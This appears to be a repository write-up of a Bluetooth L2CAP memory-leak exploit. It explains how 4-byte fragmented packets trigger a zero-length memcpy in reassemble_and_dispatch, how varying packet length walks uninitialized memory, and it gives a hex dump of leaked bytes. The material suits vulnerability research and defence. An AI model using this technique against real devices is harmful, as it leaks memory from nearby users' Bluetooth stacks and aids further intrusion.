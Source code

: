 
By sending l2cap packet with 4 bytes fragmentation we can trigger a memcpy of 0 length in reassemble_and_dispatch
This allow to get 4 bytes of uninitialized data at end of echo

Increasing first packet length (further named mem_offset) allow to "walk" the uninitialized memory
Getting 32 echos with same mem_offset give 2 to 8 exploitable echos
Echos are repeated so no need to get more then 32 echos at same mem_offset
This method we also feel memory with the packets so it's easy to reconize patterns and find offsets in leaks

The mem_offset is the length of the l2cap packet in characters
Ex: mem_offset 184 = l2cap packet of 184 characters = l2cap packet of 368 bytes

Example of memory "walking" and uninitialized data with repetitions:

176: 00000000 01000000 01000000 00000000 00000000 01000000 00000000 00000000 00000000 01000000 01000000 00000000 00000000 01000000 00000000 00000000 ................................................................
177: 00000000 000000a4 00000024 00000000 00000000 000000a4 00000000 00000000 00000000 000000a4 00000024 00000000 00000000 000000a4 00000000 00000000 ...........$...............................$....................
178: 00000000 0000a4ce 000024d2 00000000 00000000 0000a4d5 00000000 00000000 00000000 0000a4ce 000024d2 00000000 00000000 0000a4d5 00000000 00000000 ..........$...............................$.....................
179: 00000000 00a4ce80 0024d280 00000000 00000000 00a4d580 00000000 00000000 00000000 00a4ce80 0024d280 00000000 00000000 00a4d580 00000000 00000000 .........$...............................$......................
180: 00000000 a4ce80a3 24d280a3 00000000 00000000 a4d580a3 00000000 00000000 00000000 a4ce80a3 24d280a3 00000000 00000000 a4d580a3 00000000 00000000 ........$...............................$.......................
181: 00000000 ce80a39c d280a31c 00000000 00000000 d580a39c 00000000 00000000 00000000 ce80a39c d280a31c 00000000 00000000 d580a39c 00000000 00000000 ................................................................
182: 00000000 80a39cce 80a31cd2 00000000 00000000 80a39cd5 00000000 00000000 00000000 80a39cce 80a31cd2 00000000 00000000 80a39cd5 00000000 00000000 ................................................................
183: 00000000 a39cce80 a31cd280 00000000 00000000 a39cd580 00000000 00000000 00000000 a39cce80 a31cd280 00000000 00000000 a39cd580 00000000 00000000 ................................................................
184: 00000000 9cce80a3 1cd280a3 00000000 00000000 9cd580a3 00000000 00000000 00000000 9cce80a3 1cd280a3 00000000 00000000 9cd580a3 00000000 00000000 ................................................................
185: 00000000 ce80a300 d280a300 00000000 00000000 d580a300 00000000 00000000 00000000 ce80a300 d280a300 00000000 00000000 d580a300 00000000 00000000 ................................................................
186: 00000000 80a30000 80a30000 00000000 00000000 80a30000 00000000 00000000 00000000 80a30000 80a30000 00000000 00000000 80a30000 00000000 00000000 ................................................................
187: 00000000 a3000000 a3000000 00000000 00000000 a3000000 00000000 00000000 00000000 a3000000 a3000000 00000000 00000000 a3000000 00000000 00000000 ................................................................
188: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 ................................................................
